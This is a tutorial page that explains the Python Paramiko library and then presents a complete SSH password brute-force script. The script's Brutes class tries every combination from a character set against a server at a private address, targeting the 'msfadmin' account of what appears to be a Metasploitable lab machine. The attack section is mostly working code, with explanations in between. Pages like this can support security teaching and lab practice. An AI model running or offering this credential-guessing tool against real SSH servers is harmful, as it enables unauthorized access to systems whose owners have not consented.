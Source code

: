 ```yaml
---
title: "Python SSH Bruteforcer"
description: 
excerpt: "SSH Bruteforce written in Python"
date: 2022-11-03T19:41:26+02:00
lastmod: 2023-03-06T19:41:26+02:00
draft: false
weight: 100
images: []
categories: ""
tags: ""
contributors: ""
pinned: false
homepage: false
---
```


---

## What is Paramiko?

Paramiko is a Python implementation of SSH (Secure Shell) protocol which allows Python programs to establish secure connections to remote servers. Here's how you can install Paramiko and some basic usage instructions:

### Installation
You can install Paramiko using pip, the package installer for Python. To install the latest version of Paramiko, run the following command:


    pip install paramiko


### Basic Usage

First, you need to import the Paramiko library in your Python script:

    import paramiko


---

## Establish an connection

Let's uses the Paramiko library to establish an SSH connection to a remote server.

The first step is to import the Paramiko library in your Python script.

     import paramiko

### Define connection parameters

Next, define the connection parameters like IP address, username, and password of the remote server you want to connect to.

    ip = '192.168.198.136'
    username = 'ubuntu'
    password = 'pa$$w0rd'
    timeout = 5

In this example, we are using IP address 192.168.198.136 with ubuntu as the username and pa$$w0rd as the password. We are also setting a timeout value of 5 seconds.

### Set up the SSH client
Create an instance of the SSHClient class and set the missing_host_key_policy attribute to AutoAddPolicy. This will automatically add the remote server's SSH key to the local machine's list of known hosts.

    client_policy = paramiko.AutoAddPolicy()
    client = paramiko.SSHClient();
    client.set_missing_host_key_policy(client_policy)

### Connect to the remote server

Use the connect() method of the SSH client instance to establish an SSH connection with the remote server.

    client.connect(ip, username=username, password=password, timeout=timeout)

In this example, we are passing the IP address, username, password, and timeout value to the connect() method.

### Print the SSH client object
Finally, print the SSH client object to verify that the connection has been established successfully.

    print(client)

### Close the connection

After you are finished with the connection, you should close it to free up system resources.

    client.close()


## Bruteforce SSH

This is an example of a brute force attack using the Paramiko library to attempt to log in to an SSH server. The script creates a client object, defines a Brutes class that generates password guesses, and tries to connect to the SSH server using each password guess until the correct one is found.

Here are the steps to understand this script:

### Libraries


    import itertools as it
    import string
    from utils import timefunc
    import paramiko

This code imports the necessary libraries, including itertools, string, timefunc from the utils module, and paramiko.

### Define the create_client function


    def create_client():
        client = paramiko.SSHClient()
        client_policy = paramiko.AutoAddPolicy()
        client.set_missing_host_key_policy(client_policy)
        return client

This function creates an SSH client object using the paramiko library, sets the client's policy to auto-add any new host key, and returns the client object.

### Define the Brutes class


    class Brutes:
        def __init__(self, charset, length, ip):
            self.charset = charset
            self.length = length
            self.ip = ip
        
        @timefunc
        def crackit(self, username):
            client = create_client()
            for guess in self.guesses:
                try:
                    print(guess)
                    client.connect(self.ip, username=username, password=guess, timeout=0.5)
                    print('The password is {}'.format(guess))
                    return guess
                except paramiko.AuthenticationException as e:
                    print('{} is not it.'.format(guess)) 
                finally:
                    client.close()
        
        @property
        def guesses(self):
            for guess in it.product(self.charset, repeat=self.length):
                yield ''.join(guess)


This class takes in three arguments: the character set used to generate password guesses, the length of the password guesses, and the IP address of the target SSH server. The crackit method attempts to connect to the SSH server using each password guess generated by the guesses property until the correct password is found or all guesses have been exhausted. The guesses property generates all possible combinations of the characters in the character set for the given length.

### Define the main function

    def main():
        charset = 'aspeb'#'pqrstuvwxyzabcdefghijklmno'
        ip = '10.0.13.231'
        brute = Brutes(charset, 4, ip)
        password = brute.crackit(username='msfadmin')
        if password:
            print('Found {}'.format(password))

This function sets the character set, IP address, and length of the password guesses, creates a Brutes object, and attempts to crack the SSH password for the specified username. If the password is found, it is printed to the console.

### Run the code


    if __name__ == '__main__':
        main()



